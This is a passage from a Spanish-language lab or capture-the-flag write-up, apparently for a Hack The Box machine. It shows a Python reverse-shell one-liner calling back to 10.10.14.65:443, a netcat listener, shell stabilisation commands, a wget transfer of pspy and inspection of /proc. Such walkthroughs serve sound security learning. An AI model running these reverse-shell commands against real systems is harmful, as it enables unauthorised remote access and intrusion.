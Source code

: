 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.65",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Los valores `s.connect(("10.10.14.65",443))` **deben ser cambiados** dependiendo de nuestra IP y del puerto en el que queramos recibir la *shell*. 

Previamente a ejecutar el comando, nos ponemos en escucha con *netcat* a través del comando `sudo nc -nlvp 443`. Deberíamos recibir una consola:

![imagen 42](Pasted image 20230216170731.png)

Haremos un tratamiento a la consola para hacerla más interactiva. Esto significa poder hacer *Ctrl+C* sin perder la *shell*, limpiar los comandos, movernos con las flechas… Escribiremos la siguiente secuencia de comandos:

```bash
python3 -c 'import pty;pty.spawn("/bin/sh")'
*CTRL+Z*
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Llevando a cabo un **reconocimiento básico del sistema**, no encuentra **nada interesante**. Es por eso que emplearé la herramienta *pspy* para ver qué tareas se están ejecutando a intervalos regulares de tiempo.

#### Reconocimiento del sistema con pspy

**_Pspy_** es una herramienta que nos permite ver qué tareas se están ejecutando a intervalos regulares de tiempo y por qué usuarios. Nos la podemos descargar del siguiente [repositorio](https://github.com/DominicBreuker/pspy).

El programa se puede transferir a la máquina víctima desplegando un servidor en _python_ `(python3 -m http.server 80)` compartiendo el fichero y luego en la máquina víctima en un directorio donde tengamos permisos de escritura (como _/tmp_ o _/dev/shm_) hacer un _wget_ para descargar el archivo.

Cada cierto tiempo se está ejecutando la siguiente tarea por el usuario con UID igual a 1000 (nosotros):

![imagen 43](Pasted image 20230217094729.png)

Simplemente se está ejecutando un ***sleep 100000000***. Un poco extraño, ya que esta cantidad de segundos equivale a 3,17 años. Vamos a inspeccionar el proceso que está corriendo este comando. Su PID (identificador) es **1196**. En */proc* encontraremos información sobre el mismo.

#### Ganando acceso a 10.10.11.184

El directorio */proc* es un directorio especial en los sistemas operativos tipo *Linux*, que proporciona información en tiempo real sobre los procesos. El proceso que nos interesa está en */proc/1196*. El directorio contiene la siguiente información:

```bash
/proc/1196 $ ls -la
total 0
dr-xr-xr-x    9 1000     1000             0 Feb 17 08:46 .
dr-xr-xr-x  281 root     root             0 Feb 17 06:25 ..
-r--r--r--    1 1000     1000             0 Feb 17 08:51 arch_status
dr-xr-xr-x    2 1000     1000             0 Feb 17 08:51 attr
-rw-r--r--    1 1000     1000             0 Feb 17 08:51 autogroup
-r--------    1 1000     1000             0 Feb 17 08:51 auxv
-r--r--r--    1 1000     1000             0 Feb 17 08:51 cgroup
--w-------    1 1000     1000             0 Feb 17 08:51 clear_refs
-r--r--r--    1 1000     1000             0 Feb 17 08:46 cmdline
-rw-r--r--    1 1000     1000             0 Feb 17 08:51 comm
```